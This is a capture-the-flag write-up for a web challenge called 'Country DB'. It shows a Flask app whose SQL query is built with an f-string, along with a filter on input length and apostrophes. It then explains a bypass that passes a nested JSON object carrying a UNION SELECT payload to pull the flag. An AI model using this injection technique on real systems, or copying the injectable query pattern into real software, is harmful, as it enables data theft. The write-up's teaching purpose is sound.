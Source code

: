 Challenge name: Country DB

Category: Web

Solves: 246

### Given information

> Do you know which country code 'CA' and 'KE' are for?

> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Solution

This challenge would take a two letter country code as input and return it's corresponding country name if it was present in the SQL database.

```
def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

# ...

@app.route("/api/search", methods=["POST"])
def api_search():
    req = flask.request.get_json()
    if "code" not in req:
        flask.abort(400, "Empty country code")

    code = req["code"]
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {"name": name}

if __name__ == "__main__":
    app.run(debug=True)
```

The SQL query used to fetch the country name uses Python's f-string syntax to substitute the user given input `code`: `f"SELECT name FROM country WHERE code=UPPER('{code}')"`. Hence this web app is vulnerable to SQLi. From [`init_db.py`](challenge_files/init_db.py) we learn that the flag is stored in the `flag` column of the `flag` table and hence the required query to obtain the flag is:

```
') UNION SELECT flag FROM flag--"}
```

---

But we have two WAFs to cross:

-   Length of the input must equal two
-   Input must not contain an apostrophe (`'`)

WAFs validation statement: `if len(code) != 2 or "'" in code:`

After trying multiple (failed) approaches such as:

-   https://github.com/sqlmapproject/sqlmap/blob/master/tamper/apostrophemask.py
-   prefixing `\\x27`, i.e. `'` in hex
-   compressing the payload into two characters (I know!)

We look closer at the code snippet that initially parses the user input and realize that it's direct JSON input.

```
req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

code = req['code']
```

This means that we can pass a nested JSON object as a string to the `code` key. This will then get converted to a Python dictionary allowing us to bypass both the WAFs.

Hence the final payload becomes:

```
req = {"code": {"') UNION SELECT flag FROM flag--": "lorem", "ipsum": "dolor"}}

code = req["code"]

print(len(code) == 2) # True

print("'" in code) # False

print(f"SELECT name FROM country WHERE code=UPPER('{code}')")
# SELECT name FROM country WHERE code=UPPER('{"') UNION SELECT flag FROM flag--": 'lorem', 'ipsum': 'dolor'}')
```
